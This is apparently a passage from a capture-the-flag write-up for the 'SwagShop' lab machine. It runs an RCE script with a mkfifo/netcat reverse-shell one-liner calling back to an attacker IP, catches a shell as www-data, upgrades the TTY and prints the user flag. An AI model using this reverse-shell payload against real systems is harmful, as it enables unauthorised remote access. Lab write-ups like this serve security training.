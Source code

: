 #### Reverse Shell

Let's run a listener on port `7777`. and then run our script. 

```bash
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop/Scripts]
└─$ python2 RCE.py 'http://swagshop.htb/index.php/admin/' "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.2 7777 > /tmp/f"

┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/SwagShop]
└─$ nc -lnvp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.140 46018
bash: cannot set terminal process group (1857): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ whoami
whoami
www-data
```

#### Upgrading TTY

```bash
www-data@swagshop:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@swagshop:/var/www/html$ ^Z

zsh: suspended  nc -lnvp 1234
                                                                                                                    
┌──(krakenn㉿Phoenix)-[~/CPTS/Boxes/Shocker]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? screen
```

- Now let's search for the user flag.

```bash
www-data@swagshop:/var/www/html$ cd /home
www-data@swagshop:/home$ ls
haris
www-data@swagshop:/home$ cd haris
www-data@swagshop:/home/haris$ ls
user.txt
www-data@swagshop:/home/haris$ cat user.txt 
c8a2e47d1ad88cdf780c0cf9f4c8a263

```

- User Flag: `c8a2e47d1ad88cdf780c0cf9f4c8a263`

## Privelege Escalation
